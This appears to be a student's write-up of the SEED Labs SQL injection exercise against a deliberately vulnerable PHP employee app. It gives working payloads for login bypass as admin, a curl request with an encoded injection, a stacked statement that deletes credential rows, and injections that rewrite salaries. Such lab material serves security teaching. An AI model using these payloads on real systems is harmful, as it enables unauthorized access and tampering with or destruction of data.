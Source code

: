 # SQL Injection 

## Summary 
* SQL injection attacks are due to invalidated user inputs. 
* The attackers inject inputs in the text box such that the SQL statement on the client side is reconstructed as per the attacker's needs. 
* The victims may not even know that their data is compromised. 

## Links 


## Tasks:

#### A simple PHP application. 
* Link : https://gitlab.com/shivapbhusal/app_analysis/blob/master/security_examples/sql_injection.php

#### Seedlab tasks 
* Link : http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Web/Web_SQL_Injection/SQL_Injection.pdf

#### Task 1: Playing with the MySQL console 
```sql
mysql -u root -pseedubuntu
use Users; # name of the database 
show tables; # show all the tables in Users database 
```

#### Task 2.1 : SQL injection attack from webpage 
To simply login, attacker can type this in the Employee ID textbox 
```
a ' or 1 #

```

To login as admin, attacker can type this. We assume, attacker knows the name of admin. 
```
a ' or Name='Admin' #
```

#### Task 2.2. : From the command line 
```
curl 'http://www.seedlabsqlinjection.com/unsafe_credential.php?EID=a+%27+or+Name%3D%27Admin%27+%23&Password=aass'
``` 

#### Task 2.3. : Append a new SQL statement 
Had some issues with this. Draft script. P.S : Attacker will also not know the table name. 
```
a ';delete from credential where Name='Abc'#
```

#### Task 3.1 : Updating the salary 
Employee can't edit their salary information. But they can do this with the help of SQL injection attack. Type this in any of the field 
```
aaaaaa',salary=100000#
```

#### Task 3.2 : Updating the salary of one specific person
Set the value of first field as 
```
aaaaaa',salary=1 where Name='Ryan'#
```

& set the values of every other fields as # so that every statements executed are commented out. 
